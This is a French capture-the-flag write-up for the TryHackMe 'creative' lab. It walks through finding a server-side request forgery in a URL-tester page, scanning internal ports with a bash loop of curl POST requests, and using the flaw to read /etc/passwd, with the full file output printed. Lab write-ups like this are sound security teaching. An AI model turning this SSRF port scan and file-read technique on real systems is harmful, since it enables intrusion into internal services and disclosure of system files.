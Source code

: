 # Searching
Le site **http://creative.thm/** n'apporte rien d'utile.

Par contre, **http://beta.creative.thm/** pointe vers un tester d'url. Quand on met un site, il affiche le code sinon il écris **Dead**.

Je test **http://localhost** il affiche le site **http://creative.thm**
Par contre, si je test avec **http://beta.creative.thm/** il tourne en boucle.

J'ouvre un webserv local sur ma kali
```
sudo python3 -m http.server 80
```
Le site requête bien mon webserv. Je tente d'upload un shell mais cela ne fonctionne pas. Le code n'est pas interpreter.

Après m'être manger quelques murs concernant mes shells et autre injection de cmd, je me souvient qu'il m'est déjà arriver de tomber sur des serveurs locaux avec des ports non visible depuis l'ext.

On va test ca avec un petit script (j'ai test avec Burp Suite, mais comme j'ai une version Community, l'intruder est extrèmement lent....)
```sh
#!/bin/bash

for port in $(seq 1 65535); do
        url="http://localhost:${port}"
        resp=$(curl -s -X POST "http://beta.creative.thm/" -d "url=${url}")
        if [ "$resp" = "<p> Dead </p>" ]; then
                echo "Port ${port} is closed"
        else
                echo "Port ${port} respond !"
        fi
done
```
Il trouve un port, le port 1337 répond ! Il s'agit d'une page **Directory list** avec le contenu de **/**
On peux voir **/etc/passwd**
```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/creative]
└─$ curl -X POST "http://beta.creative.thm" -d "url=http://localhost:1337/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
```